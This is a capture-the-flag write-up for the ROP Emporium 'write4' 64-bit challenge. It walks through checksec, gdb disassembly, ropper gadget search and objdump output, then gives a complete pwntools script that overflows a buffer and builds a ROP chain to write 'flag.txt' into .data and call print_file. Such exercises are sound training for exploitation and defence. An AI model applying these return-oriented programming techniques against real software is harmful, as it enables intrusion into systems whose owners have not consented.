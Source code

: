 ## 64 bits

```bash
$ checksec write4
[*] '/home/localuser/ropemporium/write4/64bits/write4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
 ```
 
 Running the binary:
 
 ```bash
 $ ./write4 
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> test
Thank you!
 ```
 
 Now I'll open it on gdb and see the functions:
 
 ```bash
 pwndbg> info func
All defined functions:

Non-debugging symbols:
0x00000000004004d0  _init
0x0000000000400500  pwnme@plt
0x0000000000400510  print_file@plt
0x0000000000400520  _start
0x0000000000400550  _dl_relocate_static_pie
0x0000000000400560  deregister_tm_clones
0x0000000000400590  register_tm_clones
0x00000000004005d0  __do_global_dtors_aux
0x0000000000400600  frame_dummy
0x0000000000400607  main
0x0000000000400617  usefulFunction
0x0000000000400628  usefulGadgets
0x0000000000400630  __libc_csu_init
0x00000000004006a0  __libc_csu_fini
0x00000000004006a4  _fini
 ```
 
 The `main` function calls the `pwnme` function:
 
 ```bash
 pwndbg> disassemble pwnme
Dump of assembler code for function pwnme@plt:
   0x0000000000400500 <+0>:     jmp    QWORD PTR [rip+0x200b12]        # 0x601018 <pwnme@got.plt>
   0x0000000000400506 <+6>:     push   0x0
   0x000000000040050b <+11>:    jmp    0x4004f0
End of assembler dump.
 ```
 
 `pwnme` it's at plt, and there's `usefulGadgets` and `usefulFunction`:
 
 ```bash
 pwndbg> disassemble usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:     mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:     ret    
   0x000000000040062c <+4>:     nop    DWORD PTR [rax+0x0]
End of assembler dump.
pwndbg> disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400617 <+0>:     push   rbp
   0x0000000000400618 <+1>:     mov    rbp,rsp
   0x000000000040061b <+4>:     mov    edi,0x4006b4
   0x0000000000400620 <+9>:     call   0x400510 <print_file@plt>
   0x0000000000400625 <+14>:    nop
   0x0000000000400626 <+15>:    pop    rbp
   0x0000000000400627 <+16>:    ret    
End of assembler dump.
 ```
 
 Now i'll use ropper to find useful gadgets, and those are the importants:
 
 ```bash
 $ ropper                                                                                                                                   
(ropper)> file write4
(write4/ELF/x86_64)> gadgets
----
----
0x0000000000400690: pop r14; pop r15; ret;
0x0000000000400693: pop rdi; ret;
----
----
 ```

 
 Now we need somewhere to write, let's find it with `obdjump`:
 
 ```bash
 $ objdump -h write4
 -----
 -----
 -----
 22 .data         00000010  0000000000601028  0000000000601028  00001028  2**3
----
----
 ```
 
 I'll use `.data` but `.bss` will work too.
 
 So what we are going to do is send the padding then with the gadget `pop r14; pop r15`, we change the value of r14 to the data and the r15 the `flag.txt` string, then with the gadget `pop rdi`, the new value of rdi is going to be flag.txt, and then we call the `print_file` function to get the flag
 
 The final exploit:
 
 ```python
 from pwn import *

p = process("./write4")
elf = ELF("./write4")

# gadgets:
pop_r14_r15 = p64(0x400690) 
mov_r14_r15 = p64(0x400628) 
print_file = p64(0x400510)
pop_rdi = p64(0x400693)
data = p64(0x601028)


payload = b"a"*40
payload += pop_r14_r15
payload += data
payload += b"flag.txt"
payload += mov_r14_r15
payload += pop_rdi
payload += data
payload += print_file

p.recvuntil(">")
p.sendline(payload)
p.recvline()
p.interactive()
 ```
 
 
 
